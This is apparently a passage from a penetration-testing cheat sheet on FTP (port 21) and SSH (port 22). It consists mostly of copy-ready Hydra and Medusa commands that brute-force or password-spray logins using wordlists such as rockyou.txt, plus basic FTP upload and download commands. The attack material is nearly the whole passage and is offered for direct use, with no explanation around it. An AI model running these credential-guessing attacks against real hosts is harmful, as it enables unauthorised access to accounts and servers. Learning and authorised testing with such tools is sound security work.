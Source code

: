 #### ➤ Bruteforcing
```
#Hydra - Password spraying
hydra -s 21 -t 4 -L username.lst -p password01! 10.0.0.1 ftp

#Hydra - Bruteforce specific user
hydra -s 21 -t 4 -l admin -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ftp

#Hydra - Bruteforce common login:passord
hydra -s 21 -C /home/kali/wordlists/legion/ftp-betterdefaultpasslist.txt -u -f 10.0.0.1 ftp

#Medusa
medusa -h 10.10.10.10 -u user -P passwords.txt -M ftp 
```

#### ➤ Basic Connection and FTP commands
```
➤ Connection
ftp 10.0.0.1 21

➤ Upload a file (from the folder where the shell has been started)
binary
put <filename>

➤ Download a file (to the folder where the shell has been started)
binary
get <filename>

ex:
get test.zip
get "Access Control.zip"
```

#### ➤ Common Errors
```
➤ 229 Entering Extended Passive Mode (|||26826|)
```
![image](https://github.com/Kiosec/External-Enumeration/assets/100965892/87976e59-04e6-41e9-bc23-c9d0f71b7d4f)


## 🔻Port 22
#### ➤ Hydra - Bruteforcing
```
#Hydra - Bruteforce specific user
hydra -s 22 -v -t 4 -l root -P /usr/share/wordlists/rockyou.txt 10.0.0.1 ssh

#Hydra - Password spraying
hydra -L user.txt -p password01! 10.0.0.1 ssh

#Hydra - Full bruteforce
hydra -L user.txt -P rockyou.txt 10.10.219.212 ssh
```
